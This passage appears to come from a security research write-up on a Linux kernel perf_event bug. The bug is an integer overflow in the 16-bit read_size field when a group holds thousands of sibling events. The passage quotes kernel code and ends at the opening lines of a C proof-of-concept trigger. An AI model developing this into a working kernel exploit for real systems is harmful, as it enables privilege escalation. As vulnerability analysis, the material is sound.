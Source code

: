 All of them are 16-bit unsigned integers.
``` c
struct perf_event {
    // [...]
    u16                header_size;
    u16                id_header_size;
    u16                read_size;
    // [...]
};
```

However, this function only verifies the newly created event, which can lead to some issues. First, events within the same group may have different read formats, potientially causing **incorrect calculation** of `read_size`. Additionally, the cumulative read size for the group is not validated, which could result in an **integer overflow** for `read_size`.

The perf group leader updates the `read_size` in the `perf_group_attach()` function when a new event is added. If the group leader's `nr_siblings` is larger or equal to 8190 (including metadata size), `event->read_size` will overflow due to the 16-bit limit [6].
``` c
static void perf_group_attach(struct perf_event *event)
{
    // [...]
    group_leader->nr_siblings++;
    perf_event__header_size(group_leader);
}

static void perf_event__header_size(struct perf_event *event)
{
    __perf_event_read_size(event, event->group_leader->nr_siblings);
    // [...]
}

static void __perf_event_read_size(struct perf_event *event, int nr_siblings)
{
    // [...]
    if (event->attr.read_format & PERF_FORMAT_GROUP) {
        nr += nr_siblings;
        size += sizeof(u64);
    }

    size += entry * nr;
    event->read_size = size; // [6]
}
```

## 3. Proof-Of-Concept

To trigger the vulnerability, we start by creating a group leader perf event, then fork four processes to generate 8000 sibling perf events. After that, we create another 190 sibling perf events to induce a `read_size` overflow.
``` c
int main()
{
    pid_t ppid;
    int group_leader;
    struct perf_event_attr attr;
    struct rlimit rlim = { 4096, 4096 };
    setrlimit(RLIMIT_NOFILE, &rlim);
    ppid = getpid();

    // ===== 1. setup attribute =====
    memset(&attr, 0, sizeof(attr));
    attr.type = PERF_TYPE_SOFTWARE;
    attr.size = sizeof(attr);
```